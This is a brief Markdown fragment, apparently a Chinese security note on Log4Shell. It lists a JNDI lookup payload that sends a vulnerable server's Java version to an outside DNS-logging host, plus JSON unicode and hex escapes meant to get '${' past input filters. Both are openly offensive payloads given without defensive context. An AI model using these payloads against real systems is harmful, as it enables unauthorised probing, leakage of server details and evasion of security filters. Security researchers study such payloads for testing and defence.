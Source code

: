 

#### 一些获取信息的payload

```
#目标java版本
${jndi:ldap://${sys:java.version}.dnslog.cn}
```

![图片](../assets/2021-12-15-Log4jshell%E5%90%8E%E7%BB%AD/FGT0Im-UcAIq7IA.png)

#### JSON bypass ${

```json
{"key":"\u0024\u007b"}
or
{"key":"\x24\u007b"}
```

